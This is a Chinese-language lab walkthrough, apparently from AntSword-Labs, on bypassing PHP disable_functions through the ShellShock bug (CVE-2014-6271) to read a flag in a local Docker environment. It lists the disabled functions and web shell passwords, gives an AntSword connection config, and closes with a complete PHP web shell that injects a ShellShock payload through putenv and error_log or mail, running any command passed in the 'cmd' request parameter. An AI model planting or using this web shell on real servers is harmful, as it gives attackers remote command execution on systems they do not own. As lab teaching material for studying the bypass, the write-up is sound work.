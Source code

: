 ## 02 利用 ShellShock (CVE-2014-6271)

### php.ini 配置如下:

```ini
disable_functions=pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,dl,mail,system
```

### 使用条件

* Linux 操作系统
* `putenv`
* `mail` or `error_log` 本例中禁用了 `mail` 但未禁用 `error_log`
* `/bin/bash` 存在 `CVE-2014-6271` 漏洞
* `/bin/sh -> /bin/bash` sh 默认的 shell 是 bash 

###  绕过实验

AntSword >= 2.1.4

我们的最终目的是获取 `/flag` 的内容, 这个文件是 644 权限，`www-data` 用户无法通过读文件的形式读到内容, 需要执行拥有 SUID 权限的 `tac` 命令(具体看 `/start.sh`)来获取 flag

1. 启动环境

```
$ docker-compose up -d
```

Shell | 密码
:-:|:-:
`http://127.0.0.1:18080/index.php` | ant
`http://127.0.0.1:18080/shell.php` | ant

2. 打开 AntSword 添加 Shell

![1.png](https://i.loli.net/2019/07/08/5d221a74179c434216.png)

也可直接使用配置导入插件导入下面的配置:

```
{"_id":"NKonQAcRd5DAIcRj","addr":"IANA 保留地址用于本地回送","category":"default","ctime":1562515402313,"decoder":"default","encode":"UTF8","encoder":"base64","httpConf":{"body":{},"headers":{"User-Agent":"Mozilla/5.0 (iPhone; CPU iPhone OS 8_0 like Mac OS X) AppleWebKit/600.1.4 (KHTML, like Gecko) Mobile/12A365 MicroMessenger/5.4.1 NetType/WIFI"}},"ip":"127.0.0.1","note":"AntSword-Labs Bypass disable functions 2","otherConf":{"chunk-step-byte-max":"3","chunk-step-byte-min":"2","command-path":"","filemanager-cache":1,"ignore-https":1,"request-timeout":"30000","terminal-cache":0,"upload-fragment":"500","use-chunk":0,"use-multipart":0},"pwd":"ant","type":"php","url":"http://127.0.0.1:18080/index.php","utime":1562515402313}
```

3. 查看 PHPINFO 验证是 system 等函数已被禁用

![2.png](https://i.loli.net/2019/07/08/5d221a77ee2f022649.png)

4. AntSword 虚拟终端中已经集成了对 ShellShock 的利用, 直接在虚拟终端执行命令即可

![3.png](https://i.loli.net/2019/07/08/5d221a7accb5f56265.png)

**注意1:**

注意看上图中 1 位置的进程树的情况

如果执行命令直接使用 `system` 等执行命令的函数, 进程列表是这样的:

```
www-data   810   684  0 Jul06 ?        00:00:14 /usr/sbin/apache2 -k start
www-data   909   712  0 00:17 ?        00:00:00 sh -c /bin/sh -c "cd "/var/www/html";ps -aef;echo [S];pwd;echo [E]" 2>&1
www-data   910   909  0 00:17 ?        00:00:00 /bin/sh -c cd /var/www/html;ps -aef;echo [S];pwd;echo [E]
www-data   911   910  0 00:17 ?        00:00:00 ps -aef
```

可以明显看出本例中执行命令时, 利用了 PHP `error_log` 函数在执行 `sh -c  -t -i ` 时, Bash 的 ShellShock 漏洞, 从而实现了执行我们自定义命令的目的。 

**注意2:**

执行了 `ls -al /tmp`, 可以看到每次都生成了以 `as` 开头的临时文件, 这就是我们执行完命令之后, 将输出重定向到了临时文件中, 然后再读出来


5. 尝试文件管理直接用 PHP 读 flag, 肯定是读不到的

![5.png](https://i.loli.net/2019/07/09/5d241ee38a56c78243.png)

然后我们改用 tac 命令来获取 flag

![6.png](https://i.loli.net/2019/07/09/5d241eed1677e95411.png)

#### 手动

原理脚本如下:

```
<?php
function runcmd($c){
  $d = dirname($_SERVER["SCRIPT_FILENAME"]);
  if(substr($d, 0, 1) == "/" && function_exists('putenv') && (function_exists('error_log') || function_exists('mail'))){
    if(strstr(readlink("/bin/sh"), "bash")!=FALSE){
      $tmp=tempnam(sys_get_temp_dir(), 'as');
      putenv("PHP_LOL=() { x; }; $c >$tmp 2>&1");
      if (function_exists('error_log')) {
        error_log("a", 1);
      }else{
        mail("a@127.0.0.1", "", "", "-bv");
      }
    }else{
      print("Not vuln (not bash)\n");
    }
    $output = @file_get_contents($tmp);
    @unlink($tmp);
    if($output!=""){
      print($output);
    }else{
      print("No output, or not vuln.");
    }
  }else{
    print("不满足使用条件");
  }
}

// runcmd("whoami"); // 要执行的命令
runcmd($_REQUEST["cmd"]); // ?cmd=whoami
?>
```

